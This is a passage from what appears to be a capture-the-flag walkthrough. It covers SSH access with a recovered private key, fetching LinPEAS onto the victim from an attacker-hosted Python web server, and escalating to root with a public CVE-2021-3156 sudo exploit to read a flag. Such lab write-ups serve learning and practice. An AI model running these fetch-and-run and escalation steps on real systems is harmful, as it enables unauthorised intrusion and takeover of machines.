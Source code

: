 Copy paste the key in a local _id_rsa.txt_, close the RevShell

```bash
chmod 600 id_rsa.txt
ssh bismuth@<IP> -i 'id_rsa.txt'
```

We need root privilege, so let's check:
> https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist

And Run LinPEAS, as we cannot download from the web, a good alternative is download on local machine, run a python server and download it on the victim_machine:

```bash
# host
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh -o linpeas.sh 
sudo python3 -m http.server 80

# victim
curl -L <LOCAL-IP>/linpeas.sh -o linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

```plain
╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester
[+] [CVE-2021-3156] sudo Baron Samedit

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: mint=19,[ ubuntu=18|20 ], debian=10
   Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main
```

Looking for the CVE-2021-3156
https://github.com/worawit/CVE-2021-3156

> _For Linux distributions that glibc has tcache support and enabled (CentOS 8, Ubuntu >= 17.10, Debian 10):_
> - try **exploit_nss.py** first
> - If an error is not glibc tcache related, you can try **exploit_timestamp_race.c** next

As before:
- Download _exploit_nss.py_ on local machine
- curl it thanks the python-http-server
- chmod +x
- RUN

After becoming root, cd to /root and cat _flag3.txt_


#nmap #revereshell #olivetin #gitea #ssh #id_rsa



